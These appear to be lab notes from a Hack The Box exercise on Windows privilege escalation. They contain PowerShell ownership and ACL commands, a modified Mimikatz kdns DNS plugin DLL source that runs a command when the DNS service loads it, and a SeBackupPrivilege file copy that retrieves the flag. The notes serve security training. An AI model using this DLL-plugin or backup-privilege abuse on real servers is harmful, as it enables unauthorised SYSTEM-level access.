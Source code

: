 PS C:\Users\netadm> cd c:\Users	
PS C:\Users> cd Administrator
PS C:\Users\Administrator> dir
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator> 



takeown /f 'c:\Users\Administrator\Desktop\DnsAdmins\flag.txt'

Get-ChildItem -Path 'c:\Users\Administrator\Desktop\DnsAdmins\flag.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
Get-ChildItem : Access is denied
At line:1 char:1

icacls 'c:\Users\Administrator\Desktop\DnsAdmins\flag.txt' /grant htb-student:F
c:\Users\Administrator\Desktop\DnsAdmins\flag.txt: Access is denied.
Successfully processed 0 files; Failed processing 1 files


/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("type c:\Users\Administrator\Desktop\DnsAdmins\flag.txt");
	}
	return ERROR_SUCCESS;
}

--> Not tryed beacause too complex to install Mimikatz on target

PS C:\Tools> Copy-FileSeBackupPrivilege 'c:\Users\Administrator\Desktop\DnsAdmins\flag.txt' .\flag_dns.txt
Copied 14 bytes

cat .\flag_dns.txt
Dll_abus3_ftw!
